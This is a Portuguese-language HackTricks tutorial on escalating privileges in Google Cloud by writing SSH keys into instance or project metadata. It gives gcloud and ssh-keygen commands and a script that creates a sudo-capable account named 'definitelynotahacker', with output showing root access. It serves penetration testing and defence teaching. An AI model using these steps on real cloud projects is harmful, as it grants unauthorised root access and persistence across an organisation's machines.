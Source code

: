 # GCP - Adicionar Metadados SSH Personalizados

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## Modificando os metadados <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Se você pode **modificar os metadados da instância**, existem várias maneiras de escalar privilégios localmente. Há alguns cenários que podem levar a uma conta de serviço com essa permissão:

_**Conta de serviço padrão**_\
Se o **escopo** de acesso da conta de serviço estiver configurado para **acesso total** ou pelo menos estiver permitindo explicitamente **acesso à API do compute**, então essa configuração está **vulnerável** à escalada. O **escopo** **padrão** **não** está **vulnerável**.

_**Conta de serviço personalizada**_\
Ao usar uma conta de serviço personalizada, **uma** das seguintes permissões IAM **é** **necessária** para escalar privilégios:

* `compute.instances.setMetadata` (para afetar uma única instância)
* `compute.projects.setCommonInstanceMetadata` (para afetar todas as instâncias no projeto)

Embora o Google [recomende](https://cloud.google.com/compute/docs/access/service-accounts#associating\_a\_service\_account\_to\_an\_instance) não usar escopos de acesso para contas de serviço personalizadas, ainda é possível fazê-lo. Você precisará de um dos seguintes **escopos de acesso**:

* `https://www.googleapis.com/auth/compute`
* `https://www.googleapis.com/auth/cloud-platform`

### **Adicionar chaves SSH aos metadados personalizados**

**Sistemas Linux** no GCP geralmente executam scripts do [Ambiente de Convidado Linux Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Um desses é o [daemon de contas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que **consulta periodicamente** o ponto de extremidade dos metadados da instância para **alterações nas chaves públicas SSH autorizadas**.

**Se uma nova chave pública** for encontrada, ela será processada e **adicionada à máquina local**. Dependendo do formato da chave, ela será adicionada ao arquivo `~/.ssh/authorized_keys` de um **usuário existente ou criará um novo usuário com direitos de `sudo`**.

Portanto, se você pode **modificar os metadados da instância personalizada** com sua conta de serviço, você pode **escalar** para root no sistema local **obtendo direitos SSH** para uma conta privilegiada. Se você pode modificar **metadados do projeto personalizado**, você pode **escalar** para root em **qualquer sistema no projeto GCP atual** que esteja executando o daemon de contas.

### **Adicionar chave SSH a usuário privilegiado existente**

Vamos começar adicionando nossa própria chave a uma conta existente, pois isso provavelmente fará menos barulho.

**Verifique a instância para chaves SSH existentes**. Escolha um desses usuários, pois é provável que eles tenham direitos de sudo.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
Procure por uma seção como a seguinte:
```
...
metadata:
fingerprint: QCZfVTIlKgs=
items:
...
- key: ssh-keys
value: |-
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
...
```
Observe o **formato um pouco estranho** das chaves públicas - o **nome de usuário** é listado no **início** (seguido por dois pontos) e depois novamente no **final**. Precisaremos corresponder a este formato. Diferente da operação normal de chave SSH, o nome de usuário é absolutamente importante!

**Salve as linhas com nomes de usuário e chaves em um novo arquivo de texto** chamado `meta.txt`.

Vamos supor que estamos mirando no usuário `alice` mencionado acima. Vamos **gerar uma nova chave** para nós mesmos assim:
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
Adicione sua nova chave pública ao arquivo `meta.txt` imitando o formato:
```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```
Agora, você pode **reescrever os metadados da chave SSH** para a sua instância com o seguinte comando:
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
Você agora pode **acessar um shell no contexto de `alice`** da seguinte forma:
```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
### **Criar um novo usuário privilegiado e adicionar uma chave SSH**

Nenhuma chave existente encontrada ao seguir os passos acima? Ninguém mais interessante em `/etc/passwd` para alvo?

Você pode **seguir o mesmo processo** que o acima, mas apenas **crie um novo nome de usuário**. Esse usuário será criado automaticamente e receberá direitos para `sudo`. De forma scriptada, o processo seria assim:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Chaves SSH no nível do projeto <a href="#sshing-around" id="sshing-around"></a>

Seguindo os detalhes mencionados na seção anterior, você pode tentar comprometer mais VMs.

Podemos expandir um pouco essas informações [**aplicando chaves SSH no nível do projeto**](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#project-wide), concedendo a você permissão para **acessar via SSH uma conta privilegiada** em qualquer instância que não tenha escolhido explicitamente a opção "Bloquear chaves SSH de âmbito do projeto".
```
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
Se você for realmente ousado, também pode digitar `gcloud compute ssh [INSTANCE]` para usar seu nome de usuário atual em outras máquinas.

<details>

<summary><strong>Aprenda hacking em AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
